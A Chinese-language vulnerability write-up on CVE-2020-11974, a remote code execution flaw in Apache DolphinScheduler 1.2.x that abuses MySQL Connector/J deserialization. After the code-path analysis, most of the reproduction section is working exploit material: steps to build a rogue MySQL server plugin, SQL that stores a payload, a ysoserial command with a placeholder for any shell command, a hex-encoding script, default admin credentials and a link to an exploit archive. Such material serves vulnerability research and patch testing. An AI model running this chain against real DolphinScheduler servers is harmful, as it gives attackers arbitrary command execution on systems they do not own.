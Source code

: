（CVE-2020-11974）Apache DolphinScheduler 远程代码执行漏洞
==========================================================

一、漏洞简介
------------

CVE-2020-11974与mysql
connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过`jdbc connect`参数输入`{“detectCustomCollations”:true，“ autoDeserialize”:true}`
即可在DolphinScheduler 服务器上远程执行代码

二、漏洞影响
------------

Apache DolphinScheduler = 1.2.0、1.2.1

三、复现过程
------------

### 漏洞分析

看到这个poc的时候

    {"detectCustomCollations":true,"autoDeserialize":true,"serverTimezone":"UTC"}

其实我第一反应就是2019年的blackhat的那个利用但我又不太确定，直到我按照其他师傅复现的19年的blackhat的那个漏洞利用方式来复现成功，仔细分析了一波。我们先看这个创建数据库的接口。当我们点击create之后

![1.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId25.png)

进入该controller

![2.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId26.png)

并调用service层的createDataSource方法

![3.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId27.png)

最终调用DriverManager.getConnection进行连接数据库

![4.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId28.png)

我把这段代码拿出来，有没有很熟悉

    connection = DriverManager.getConnection(datasource.getJdbcUrl(), datasource.getUser(), datasource.getPassword());

![11.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId29.png)

（其实也可以直接用其他师傅之前写的Fake\_Mysql\_Server，我这边就不再去试了。）分析到这里还不够，我们回来看看这个Mysql Connector/j的版本号
5.1.34符合其他师傅复现的那个洞的版本号

![5.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId30.png)

除此以外，发现yso的利用链跟commons-collections的版本号也是3.2.2也不符合，一开始想着去寻找其他的利用链路，后来参考了下fnmsd师傅的文章发现，已经找到了利用链，那就是直接复现这个洞就好了

![6.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId31.png)

跟进
DriverManager.getConnection，继续接着上面的连接分析，而当detectCustomCollations设置为true的时候com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor

![7.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId32.png)

跟进后

![8.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId33.png)

最终进入到getObject

![9.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId34.png)

最终反序列化我们传入的payload

![10.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId35.png)

### 漏洞复现

-   配置mysql

#### 1. 安装rewrite插件

以下安装方式任选其一

##### 【任选】编译插件

下载mysql-5.7.28源码到/root/mysql-5.7.28，`https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz`

       gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices

##### 【任选】直接使用本git仓库中的rewrite\_example.so

复制rewrite\_example.so到/usr/lib/mysql/plugin/rewrite\_example.so即可。

> rewrite\_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

#### 2. 安装插件，建表，插入二进制数据

安装插件

    INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';

建表

1.  创建数据库：codeplutos，请自行创建
2.  建表sql如下

```{=html}
<!-- -->
```
    SET NAMES utf8mb4;
    SET FOREIGN_KEY_CHECKS = 0;

    -- ----------------------------
    -- Table structure for payload
    -- ----------------------------
    DROP TABLE IF EXISTS `payload`;
    CREATE TABLE `payload` (
      `COLLATION_NAME` varchar(255) DEFAULT NULL,
      `CHARACTER_SET_NAME` blob,
      `ID` int(5) DEFAULT NULL,
      `IS_DEFAULT` varchar(255) DEFAULT NULL,
      `IS_COMPILED` varchar(255) DEFAULT NULL,
      `SORTLEN` int(5) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8;

    -- ----------------------------
    -- Records of payload
    -- ----------------------------
    BEGIN;
    INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
    COMMIT;

    SET FOREIGN_KEY_CHECKS = 1;

生成payload

首先ysoserial生成payload（我这里直接用fnmsd师傅改的改的ysoserial.jar)

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRE8u20 "touch /tmp/1.txt" > t

`touch /tmp/1.txt`
这个替换成自己想要执行的命令，在同个目录下用这个py脚本进行转码生成payload字符

    import os
    import binascii
    with open("t", 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()))
            print payload_content

![1.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId41.png)

写入数据库

    set @a=0x这里修改为你的payload；
    update codeplutos.payload set character_set_name = @a;

默认用户名密码登陆

`admin/dolphinscheduler123`

![2.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId42.png)

点击添加数据库

![3.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId43.png)

填入信息，点击create（而不是connect，我在这里踩过坑）

![4.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId44.png)

复现成功，创建了一个1.txt

![5.png](resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId45.png)

#### 上述中的poc下载地址

`https://download.0-sec.org/Web安全/Apache DolphinScheduler/CVE-2020-11974/DolphinschedulerExploit-master.zip`

参考链接
--------

> https://xz.aliyun.com/t/8304
